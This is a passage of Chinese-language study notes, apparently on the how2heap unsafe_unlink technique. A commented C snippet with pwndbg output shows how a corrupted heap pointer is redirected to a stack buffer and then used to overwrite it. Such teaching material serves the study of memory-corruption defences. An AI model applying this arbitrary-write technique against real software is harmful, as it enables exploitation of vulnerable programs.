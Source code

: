 ![1566139357955](/img/how2heap/unlink6.png)

接下来是正式的利用unlink攻击的例子：

```c++
	//在栈上分配8字节的空间
	//pwndbg> print &victim_string 
	//$8 = (char (*)[8]) 0x7fffffffde20
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	//写入“Hello!~”
	//pwndbg> print  victim_string 
	//$13 = "Hello!~"
	
	chunk0_ptr[3] = (uint64_t) victim_string;//此时将chunk0_ptr的存储地址下的值修改为&victim_string，也就是使得chunk0_ptr指向的地址为栈上地址&victim_string。
	//从而对chunk0_ptr[0]的修改就是对victim_string的修改
	fprintf(stderr, "Original value: %s\n",victim_string); //输出 Hello!~
	chunk0_ptr[0] = 0x4141414142424242LL;//赋值为BBBBAAAA
	fprintf(stderr, "New Value: %s\n",victim_string);//输出 BBBBAAAA
```
